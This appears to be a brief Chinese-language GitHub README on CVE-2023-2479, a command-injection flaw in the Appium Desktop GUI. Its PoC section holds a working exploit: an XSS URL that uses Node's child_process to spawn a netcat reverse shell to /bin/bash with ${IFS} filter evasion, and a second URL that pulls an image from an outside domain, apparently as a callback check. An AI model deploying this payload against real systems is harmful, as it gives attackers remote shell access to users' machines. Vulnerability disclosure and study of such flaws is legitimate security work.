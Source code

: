 ## Appium Desktop CVE-2023-2479漏洞

appium-desktop 是 Appium 服务器的图形界面，也是一个应用程序检查器

由于用户输入审查不当，此软件包的受影响版本容易受到命令注入的攻击，允许攻击者设置反向 shell。
![image](https://github.com/user-attachments/assets/b4e5ffb8-1f2f-43e3-a188-91ef3de440fa)


## poc
```
http://127.0.0.1/?xss=<img/src="1"/onerror=eval("require('child_process').exec('nc${IFS}localhost${IFS}4444${IFS}-e${IFS}/bin/bash');");>

http://127.0.0.1/?url=<img/src="http://nbjfpetfmu.dgrh3.cn"> 

```
